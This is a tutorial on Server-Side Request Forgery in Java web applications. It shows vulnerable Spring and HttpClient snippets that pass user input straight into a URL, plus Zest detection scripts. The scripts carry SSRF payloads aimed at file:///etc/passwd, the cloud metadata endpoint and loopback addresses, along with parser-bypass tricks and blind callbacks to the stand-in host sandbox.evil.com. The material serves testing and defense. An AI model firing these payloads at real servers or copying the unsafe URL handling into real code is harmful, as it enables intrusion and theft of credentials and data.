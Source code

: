# Server-Side Request Forgery (SSRF) (CWE-918) in Java

###### Understanding Server-Side Request Forgery (SSRF)

#### Overview

Server-Side Request Forgery (SSRF) is a web security vulnerability where an attacker can make a server-side application send HTTP requests to an arbitrary domain of the attacker’s choosing. SSRF can lead to serious consequences, including data theft, denial of service, and access to internal resources and services. The vulnerability arises when user input is improperly validated and used directly in the construction of a URL by the server.

#### Key SSRF Attack Vectors

1. **Accessing Internal Services**: Using the web server to relay requests to internal services that are normally inaccessible from outside.
2. **Fetching Files from the Local File System**: Using file:// URLs to access local files.
3. **Accessing Metadata Services**: Especially relevant in cloud environments (like AWS EC2’s metadata service).
4. **Exploiting Trust Relationships**: Using the server’s trust in local or private networks to send malicious requests.

### Variations of SSRF in Java-based Web Applications

#### 1. Direct URL Input Vulnerability

This is the most straightforward SSRF scenario, where user input is directly used to construct a URL.

**Example**: Spring Framework with RestTemplate

```java
RestTemplate restTemplate = new RestTemplate();
String url = request.getParameter("url"); //User input
String result = restTemplate.getForObject(url, String.class);
```

**Zest Script for Detection**:

```zest
// Direct URL SSRF Detection
var url = 'http://example.com/test';
var attackVectors = [
    'http://127.0.0.1:80',
    'http://localhost:80',
    'file:///etc/passwd',
    'http://169.254.169.254/latest/meta-data/'
];

void main() {
    for (var attackUrl of attackVectors) {
        var req = zest.client.get(url + '?url=' + attackUrl);
        var res = zest.client.send(req);
        if (res.body.indexOf('root:') != -1 || res.body.indexOf('meta-data') != -1) {
            zest.log('Potential SSRF detected with URL: ' + attackUrl);
        }
    }
}
```

#### 2. URL Parsing or Wrapping Vulnerability

Some applications might attempt to sanitize or parse URLs but fail to account for all possible forms of URL encoding or schemes.

**Example**: Apache HttpClient in Java

```java
HttpClient client = HttpClient.newHttpClient();
HttpRequest request = HttpRequest.newBuilder()
    .uri(URI.create(request.getParameter("url"))) //User input
    .build();
HttpResponse<String> response = client.send(request, BodyHandlers.ofString());
```

**Zest Script for Detection**:

```zest
// URL Parsing SSRF Detection
var url = 'http://example.com/test';
var attackVectors = [
    'http://localhost:80/%2e%2e/%2e%2e/%2e%2e/etc/passwd',
    'http://127.0.0.1:80#@evil.com',
    'http://[::]:80',
    'http://169.254.169.254/latest/meta-data/'
];

void main() {
    for (var attackUrl of attackVectors) {
        var req = zest.client.get(url + '?url=' + attackUrl);
        var res = zest.client.send(req);
        if (res.body.indexOf('root:') != -1 || res.body.indexOf('meta-data') != -1) {
            zest.log('Potential SSRF detected with URL: ' + attackUrl);
        }
    }
}
```

#### 3. Blind SSRF

Blind SSRF doesn’t provide immediate feedback to the attacker. Instead, it may trigger internal resources to make requests or generate effects that are observable somewhere else.

**Example**: Asynchronous HTTP Requests

```java
CompletableFuture<HttpResponse<String>> future = HttpClient.newHttpClient()
    .sendAsync(HttpRequest.newBuilder()
               .uri(URI.create(request.getParameter("url"))) //User input
               .build(),
               BodyHandlers.ofString());

// Response handling is elsewhere in the application
```

**Zest Script for Detection**:

```zest
// Blind SSRF Detection
var url = 'http://example.com/test';
var attackVectors = [
    'http://sandbox.evil.com/log?data=',
    'http://sandbox.evil.com/count?value=',
    'http://localhost/admin'
];
var detectionUrl = 'http://sandbox.evil.com/check';

void main() {
    for (var attackUrl of attackVectors) {
        var req = zest.client.get(url + '?url=' + attackUrl);
        zest.client.send(req);
    }
    // Delay to allow async processing
    zest.client.wait(5000);
    var detectReq = zest.client.get(detectionUrl);
    var detectRes = zest.client.send(detectReq);
    if (detectRes.body.indexOf('found') != -1) {
        zest.log('Potential Blind SSRF detected.');
    }
}
```

### Conclusion

Each SSRF vulnerability in Java-based web applications can be identified by understanding how URLs are constructed and validated. By targeting specific input vectors and obfuscation techniques, detection scripts can greatly minimize false positives and negatives. The provided Zest scripts aim to test various SSRF scenarios robustly, ensuring a comprehensive assessment during web application testing  .